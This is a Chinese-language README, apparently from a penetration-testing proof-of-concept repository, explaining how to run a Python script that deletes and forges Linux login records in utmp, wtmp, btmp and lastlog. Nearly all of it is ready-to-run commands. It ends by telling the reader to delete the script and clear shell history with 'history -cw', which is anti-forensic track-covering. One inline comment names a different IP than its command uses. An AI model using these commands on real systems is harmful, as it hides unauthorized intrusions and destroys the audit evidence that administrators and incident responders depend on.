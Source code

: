 ## 渗透测试TIPS之删除、伪造Linux系统登录日志  
> 来源于[freebuf](https://www.freebuf.com/articles/system/141474.html)，文章备份:[渗透测试TIPS之删除伪造Linux系统登录日志.pdf](渗透测试TIPS之删除伪造Linux系统登录日志.pdf),但是文章脚本失效了,我保存了一份.
### 适用于 Linux 系统，[`fake_login_log.py`](https://github.com/Mr-xn/Penetration_Testing_POC/blob/master/ssh/fake_login_log.py) 脚本默认适用于`python2`版本

## USEAGE  
### 删除日志  
1. 删除utmp记录，将自己从w或者who输出中隐藏  
`python fake_login_log.py --mode delete --type utmp --user root` //删除用户为root的用户记录  
`python fake_login_log.py --mode delete --type utmp --user root --host "58.47.251.255" `//删除用户为root且登录来源host为58.47.251.255的用户记录  
2. 删除历史登录记录(wtmp)，隐藏last的记录  
`python fake_login_log.py --mode delete --type wtmp --user root --host "111.30.32.213" `//删除用户为root且登录来源host为111.30.32.213的用户记录
3. 删除btmp记录，隐藏lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode delete --type btmp --user root --host "172.16.50.156" `//删除用户为root且登录来源host为127.0.0.1的用户记录  
4. 删除lastlog记录，不能通过用户删除，只能通过host或者时间  
`python fake_login_log.py --mode delete --type lastlog --host "172.16.50.1" `//删除来源host的用户登录记录  
`python fake_login_log.py --mode delete --type lastlog --date "2017-8-2 22:46:34" `//删除登录时间为2017-8-2 22:46:34的用户登录记录  

### 伪造日志  
1. 伪造utmp记录，将自己从w或者who输出中伪造  
`python fake_login_log.py --mode add --type utmp --user nobody --tty "pts/8" --pid 25394 --date "2017-8-2 22:46:34" --host "127.0.0.1" `//伪造用户为nobody的用户记录  
> 这里伪造的时间和host可以通过who命令去找到，PID一般伪造bash或者ssh通过`ps -aux | grep ssh/bash`去寻找  
2. 伪造历史登录记录(wtmp)，伪造last的记录  
`python fake_login_log.py --mode add  --type wtmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `  
3. 伪造btmp记录，伪造lastb的记录，lastb为登录失败的用户记录  
`python fake_login_log.py --mode add  --type btmp --user root --tty "pts/7" --date "2017-8-2 00:06:34" --host "127.0.0.1" `//伪造用户为root且登录来源host为127.0.0.1的用户登录失败记录  
4. 伪造lastlog记录  
`python fake_login_log.py --mode add --type=lastlog --user=rootclay --date="2017-7-24 14:22:07" --tty "pts/2" --host "127.0.0.1" `//伪造用户为rootclay 时间2017-7-24 14:22:07 来源登录ip为127.0.0.1的用户登录记录  

> PS: 执行完这些命令之后删除掉`fake_login_log.py`本身然后使用`history -cw`清除一下历史记录.美滋滋
